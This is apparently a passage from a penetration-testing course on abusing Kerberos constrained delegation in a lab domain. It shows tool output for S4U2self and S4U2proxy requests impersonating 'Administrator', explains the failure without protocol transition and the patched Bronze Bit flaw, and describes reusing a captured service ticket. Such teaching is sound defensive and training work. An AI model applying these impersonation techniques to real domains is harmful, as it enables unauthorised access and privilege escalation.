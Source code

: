 ```batch
          dir     02/20/2025 10:37:21   Files
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     01/24/2025 14:21:18   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/24/2025 14:18:02   System Volume Information
          dir     01/24/2025 14:17:49   Users
          dir     01/24/2025 13:34:02   Windows
 12kb     fil     02/20/2025 08:50:25   DumpStack.log.tmp
 1gb      fil     02/20/2025 08:50:25   pagefile.sys
```

#### Without protocol transition <a href="#el_1737541882892_627" id="el_1737541882892_627"></a>

The computer's TGT cannot be used to obtain a forwardable service ticket via S4U2self when protocol transition is not enabled.  The S4U2self will still return a ticket but the forwardable flag will not be set, and any attempt to use it with S4U2proxy will fail.

```batch
[*] Building S4U2self request for: 'LON-WS-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'LON-WS-1$@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF8[...snip...]MtMSQ=
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/fc7a5d79239a0c52598399db249decee.png" alt="" width="100%"><figcaption></figcaption></figure>

```batch
[*] Impersonating user 'Administrator' to target SPN 'cifs/lon-fs-1'
[*] Building S4U2proxy request for service: 'cifs/lon-fs-1'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2proxy request to domain controller 10.10.120.1:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION
```

\
There was a vulnerability dubbed the '[Bronze Bit](https://www.netspi.com/blog/technical-blog/network-pentesting/cve-2020-17049-kerberos-bronze-bit-overview/)' which allowed an adversary to flip the forwardable bit in a ticket, magically making a non-forwardable ticket forwardable.  Unfortunately, this is now patched. Instead, the adversary must obtain a service ticket that a user has requested to gain access to the front-end service. This means that they cannot freely impersonate any user, but are limited to the user(s) for whom service tickets are available. These service tickets can be used directly with S4U2proxy, to obtain valid service tickets to the target service, as these users.

In this example, we have an HTTP service ticket for _dyork@HTTP/lon-ws-1_.

```batch
[*] Action: Describe Ticket

  ServiceName              :  HTTP/lon-ws-1
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  dyork (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  20/02/2025 18:58:24
  EndTime                  :  21/02/2025 04:57:43
  RenewTill                :  27/02/2025 18:57:43
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  ld5jNd1Dul9W0Dw6kVAQQBSnK72PdOhk9h3z97R0CJQ=
  
```